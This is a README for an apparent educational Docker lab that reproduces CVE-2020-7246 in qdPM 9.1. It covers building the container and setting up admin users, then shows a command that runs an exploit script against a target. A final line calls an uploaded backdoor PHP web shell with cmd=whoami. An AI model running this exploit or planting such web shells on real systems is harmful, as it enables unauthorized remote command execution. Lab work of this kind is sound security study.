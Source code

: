 # CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```
## Installation

###Checking Environment.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=tru)

###Setting up SQL Server.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=tru)

###Create Admin login/password.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=tru)

###In order to exploit the webapp, you need to have atleast one more admin user. Create a new ADMIN user.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser.jpg?raw=tru)

###Add username, email and password. USE THESE CREDENTIALS in the below exploit parameters.
![setup] (https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser-2.jpg?raw=tru)


## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```
